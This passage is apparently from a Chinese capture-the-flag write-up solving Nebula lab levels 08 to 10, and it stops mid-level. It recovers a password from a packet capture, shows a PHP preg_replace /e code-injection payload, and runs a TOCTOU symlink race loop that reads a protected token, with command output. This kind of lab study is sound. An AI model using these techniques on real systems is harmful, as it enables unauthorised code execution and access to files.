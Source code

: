 其实做的时候还挺纳闷，要登陆的是 flag08 用户，这包里登录的是 level8。先不管这个，包里可以看到 client 输入了 `b'level8\x0dbackdoor\x7f\x7f\x7f00Rm8\x7fate\x0d'`，对照 ASCII 表可知 \x0d 就是 \r，\x7f 是 DEL 即退格。所以包里client输入的密码是 backd00Rmate，用这个密码登录 flag08 即可。

```bash
level08@nebula:~$ su flag08
Password:
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

后来想了想，作者的意图应该是包里 client 输对了密码却输错了用户名，它本来是想登录 flag08 的。（常有的事）


## Level 09

没用过 PHP，不过我猜和 level 02 差不多。

网上搜了 preg_replace 相关的 vulnerability，大意就是用了 /e modifier 就会认为第二个参数是 PHP 代码，会执行。

```bash
level09@nebula:~$ cat a
[email {${system(getflag)}}]
level09@nebula:~$ /home/flag09/flag09 a
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/flag09/flag09.php(15) : regexp code on line 1
You have successfully executed getflag on a target account
PHP Notice:  Undefined variable: You have successfully executed getflag on a target account in /home/flag09/flag09.php(15) : regexp code on line 1
```

## Level 10

通过这题学到新知识了，[TOC/TOU](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)

简单来说就是建个普通文件a，通过 access 检查后，把它替换成指向token的软链，让 open 读取它。时机不好把握，就用两个死循环让它们自然竞争。

这题要开三个窗口。

第一个

```bash
level10@nebula:~$ while true; do rm -f a; touch a; ln -sf /home/flag10/token a; done
```

第二个

```bash
while true; do /home/flag10/flag10 a 127.0.0.1; done
You don't have access to a
You don't have access to a
Connecting to 127.0.0.1:18211 .. Connected!
Sending file .. wrote file!
You don't have access to a
```

第三个
